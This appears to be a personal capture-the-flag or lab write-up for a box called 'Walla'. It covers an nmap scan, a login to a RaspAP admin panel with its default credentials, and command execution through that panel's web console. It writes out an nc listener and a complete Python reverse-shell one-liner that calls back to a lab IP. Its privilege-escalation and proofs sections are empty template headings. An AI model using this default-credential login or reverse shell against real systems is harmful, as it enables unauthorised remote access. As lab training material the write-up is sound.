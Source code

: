 ```yaml
---
description: 12/05/2022
---
```


# Walla

## Information Gathering

Scanned all TCP ports:

```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
23/tcp    open  telnet     Linux telnetd
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
| ssl-cert: Subject: commonName=walla
| Subject Alternative Name: DNS:walla
| Issuer: commonName=walla
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-17T18:26:36
| Not valid after:  2030-09-15T18:26:36
| MD5:   097cbda176ab9b73c8ef68ab84e9a055
|_SHA-1: 6c4bfee30bd6d9102ef9f81a3a4172d831bdbaac
|_ssl-date: TLS randomness does not represent time
53/tcp    open  tcpwrapped
422/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
8091/tcp  open  http       lighttpd 1.4.53
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-favicon: Unknown favicon MD5: B5F9F8F2263315029AD7A81420E6CC2D
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: lighttpd/1.4.53
42042/tcp open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
Service Info: Host:  walla; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated UDP ports:

```
```

Notes:

* SSH open on 42042, 422, and 22 is open
* Telnet 23 is open -- Strange
* SMTP 25 is open
* <mark style="color:yellow;">HTTP 8091 is open -- Lighttpd 1.4.53</mark>
  * RaspAP

## Enumeration

### Port 8091 - HTTP (Lighttpd--RaspAP)

Visual:

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption><p>admin:secret (Default Credentials)</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption><p>Discovering Default Credentials</p></figcaption></figure>

* We now have access to the RaspAP login page!

## Exploitation

* [http://192.168.66.97:8091/index.php?page=system\_info#console](http://192.168.66.97:8091/index.php?page=system\_info#console)
* Upon navigating to the following site, you can execute commands in the following window/web shell!!!

{% embed url="https://github.com/gerbsec/CVE-2020-24572-POC" %}
Not needed, but cool
{% endembed %}

Start nc Listener:

```
sudo rlwrap nc -lnvp 42042
```

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192
.168.49.66",42042));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption><p>RaspAP Webshell</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption><p>We catch a shell!</p></figcaption></figure>



## Name of the technique

This is the exploit

## Privilege Escalation

### Local enumeration

### PrivEsc vector

## Proofs
